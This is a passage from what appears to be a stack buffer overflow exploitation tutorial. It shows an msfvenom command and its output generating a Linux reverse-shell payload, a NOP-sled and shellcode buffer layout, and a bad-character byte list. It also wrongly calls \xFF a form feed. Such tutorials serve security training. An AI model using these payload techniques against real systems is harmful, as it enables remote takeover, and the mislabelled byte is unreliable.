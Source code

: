 Now we see that we have overwritten the **EIP** with our "\x66" characters. Next, we have to find out how much space we have for our shellcode, which then executes the commands we intend.

## Determine the Length for Shellcode 

It is trendy and useful for us to exploit such a vulnerability to get a reverse shell. First, we have to find out approximately how big our shellcode will be that we will insert, and for this, we will use **msfvenom**.
```
zero@pio$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c 

No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
```

We now know that our payload will be about 68 bytes. As a precaution, we should try to take a larger range if the shellcode increases due to later specifications.

Often it can be useful to insert some **No Operation Instruction** (NOPS) before our shellcode begins so that it can be executed cleanly. Let us briefly summarize what we need for this:
- We need a total of 1040 bytes to get to the **EIP**
- Here, we can use an additional 100 bytes of **NOPs**
- 150 bytes for our shellcode 

The length will be:
```
   Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
     NOPs = "\x90" * 100
Shellcode = "\x44" * 150
      EIP = "\x66" * 4'
```

## Identification of Bad Characters 

Previously in UNIX-like operating systems, binaries started with two bytes containing a "**magic number**" that determines the file type. In the beginning, this was used to identify object files for different platforms. Gradually this concept was transferred to other files, and now almost every file contains a magic number.

These reserved characters, also known as **bad characters** can vary, but often we will see characters like this:
- `\x00` - Null Byte
- `\x0A` - Line Feed
- `\x0D` - Carriage Return
- `\xFF` - Form Feed

To calculate the number of bytes in our CHARS variable, we can use bash by replacing the "\x" with space and then use wc to count the words:
```console
zero@pio$ CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

zero@pio$ echo $CHARS | sed 's/\\x/ /g' | wc -w

256
```
